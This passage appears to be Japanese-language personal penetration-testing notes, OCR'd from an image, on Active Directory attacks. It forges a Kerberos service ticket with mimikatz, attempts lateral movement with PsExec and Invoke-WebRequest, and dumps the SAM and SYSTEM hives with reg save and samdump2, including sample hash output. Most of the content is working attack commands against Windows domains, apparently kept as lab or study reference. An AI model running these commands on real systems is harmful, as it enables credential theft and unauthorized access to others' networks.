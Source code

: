 最後の-500を除いた部分がドメインを定義するSID

サービスチケットを作成する

```cmd
mimikatz # kerberos::golden /user:sqlServer /domain:xor.com /sid:S-1-5-21-3051798232-4248191986-2095020414 /target:xor-app23.xor.com:1433 /service:MSSQLSvc /rc4:9F32A1D1BD317B5B8E96DDE9186D8239 /ptt
```

klistでチケット発行できていることを確認する

```cmd
klist
```

→結構入っていないOSが多い気がする。

横展開する（成功したことない）

```cmd
PsExec.exe -accepteula -u sqlServer \\xor-app23 cmd.exe
```

```powershell
PS C:\Tools> Invoke-WebRequest -UseDefaultCredentials http://web04
```

https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.2



### SAMの取得（reg save)

参考サイト：https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-hashes-from-sam-registry

* 管理者アカウントでsystemとsamを取得する

  ※おそらく整合性レベルHigh

  ```
  reg save hklm\system system
  reg save hklm\sam sam
  ```

* 取得した2ファイルをkaliに転送する

  ※systemは容量が大きいのでscpなどを使って転送するとよさそう

* ハッシュダンプする

  ```bash
  samdump2 system sam                                               
  
  ----
  Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  *disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  *disabled* :503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  *disabled* :504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  ```
